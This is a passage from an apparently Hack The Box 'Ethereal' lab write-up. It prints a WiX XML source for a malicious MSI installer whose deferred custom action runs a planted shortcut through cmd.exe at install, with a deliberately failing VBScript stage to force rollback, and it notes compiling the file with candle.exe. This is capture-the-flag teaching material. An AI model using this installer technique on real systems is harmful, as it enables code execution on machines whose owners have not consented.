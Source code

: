 ![](/images/hackthebox/ethereal/64.png)
```
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
<Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product Name"
Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
<Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
<Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>
<Directory Id="TARGETDIR" Name="SourceDir">
<Directory Id="ProgramFilesFolder">
<Directory Id="INSTALLLOCATION" Name="Example">
<Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
</Component>
</Directory>
</Directory>
</Directory>
<Feature Id="DefaultFeature" Level="1">
<ComponentRef Id="ApplicationFiles"/>
</Feature>
<Property Id="cmdline">cmd.exe /C "c:\users\public\desktop\shortcuts\rick.lnk"</Property>
<CustomAction Id="Stage1" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore"
Impersonate="yes"/>
<CustomAction Id="Stage2" Execute="deferred" Script="vbscript" Return="check">
fail_here
</CustomAction>
<InstallExecuteSequence>
<Custom Action="Stage1" After="InstallInitialize"></Custom>
<Custom Action="Stage2" Before="InstallFiles"></Custom>
</InstallExecuteSequence>
</Product>
</Wix> 
```
<br> We will use `candle.exe` from wixtools to create a wixobject from `msi.xml`